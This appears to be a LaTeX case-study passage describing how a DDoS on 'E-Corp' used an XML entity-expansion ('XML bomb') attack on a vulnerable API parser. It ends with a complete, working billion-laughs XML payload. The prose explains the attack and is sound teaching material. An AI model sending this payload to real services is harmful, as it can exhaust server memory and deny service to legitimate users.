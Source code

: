 \documentclass[]{report}
\begin{document}
A few weeks after the application was released in the first quarter of 2012, the E-Corp web application crashed and the mobile application was getting server errors from the API. Eventually, it was discovered that this was maliciously caused by an anonymous hacker who was able to run a Distributed Denial of Service (DDoS) attack against the E-Corp network through the new API built for the mobile application. This is an attack where a server is flooded with requests until it is either not able to serve legitimate users anymore or crash. It was revealed that this attack was made possible as the endpoints into the new API used a vunerable XML parser enabling the attacker to generate requests containing an "XML Bomb".
	
An XML bomb is an attack utilising a HTTP request containing a small XML document that expands dramatically when parsed by a vulnerable XML parser. This XML document contains an entity "xmlbombs" at it's root that refers to another entity "xmlbomb9" however this also refers to 10 instances of "xmlbomb8" and so forth until it reaches "xmlbomb0". The XML parser reads the initial root entity, sees that it refers to another and expands on it, doing so continuously until it reaches the end. By this time, the XML document has expanded to take up a huge amount of the server's temporary memory, slowing it down to the point where it can't process other user's requests or even crashing the server.
	
	\begin{lstlisting}[tabsize=1,frame=single,language=XML,basicstyle=\tiny, breaklines=true]
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xmlbombz [
<!ENTITY xmlbomb "xmlbomb">
<!ENTITY xmlbomb1 "&xmlbomb;&xmlbomb;&xmlbomb;&xmlbomb;&xmlbomb;&xmlbomb;&xmlbomb;&xmlbomb;&xmlbomb;&xmlbomb;">
<!ENTITY xmlbomb2 "&xmlbomb1;&xmlbomb1;&xmlbomb1;&xmlbomb1;&xmlbomb1;&xmlbomb1;&xmlbomb1;&xmlbomb1;&xmlbomb1;&xmlbomb1;">
<!ENTITY xmlbomb3 "&xmlbomb2;&xmlbomb2;&xmlbomb2;&xmlbomb2;&xmlbomb2;&xmlbomb2;&xmlbomb2;&xmlbomb2;&xmlbomb2;&xmlbomb2;">
<!ENTITY xmlbomb4 "&xmlbomb3;&xmlbomb3;&xmlbomb3;&xmlbomb3;&xmlbomb3;&xmlbomb3;&xmlbomb3;&xmlbomb3;&xmlbomb3;&xmlbomb3;">
<!ENTITY xmlbomb5 "&xmlbomb4;&xmlbomb4;&xmlbomb4;&xmlbomb4;&xmlbomb4;&xmlbomb4;&xmlbomb4;&xmlbomb4;&xmlbomb4;&xmlbomb4;">
<!ENTITY xmlbomb6 "&xmlbomb5;&xmlbomb5;&xmlbomb5;&xmlbomb5;&xmlbomb5;&xmlbomb5;&xmlbomb5;&xmlbomb5;&xmlbomb5;&xmlbomb5;">
<!ENTITY xmlbomb7 "&xmlbomb6;&xmlbomb6;&xmlbomb6;&xmlbomb6;&xmlbomb6;&xmlbomb6;&xmlbomb6;&xmlbomb6;&xmlbomb6;&xmlbomb6;">
<!ENTITY xmlbomb8 "&xmlbomb7;&xmlbomb7;&xmlbomb7;&xmlbomb7;&xmlbomb7;&xmlbomb7;&xmlbomb7;&xmlbomb7;&xmlbomb7;&xmlbomb7;">
<!ENTITY xmlbomb9 "&xmlbomb8;&xmlbomb8;&xmlbomb8;&xmlbomb8;&xmlbomb8;&xmlbomb8;&xmlbomb8;&xmlbomb8;&xmlbomb8;&xmlbomb8;">
]>
<xmlbombz>&xmlbomb9;</xmlbombz>
	\end{lstlisting}
	
\end{document}
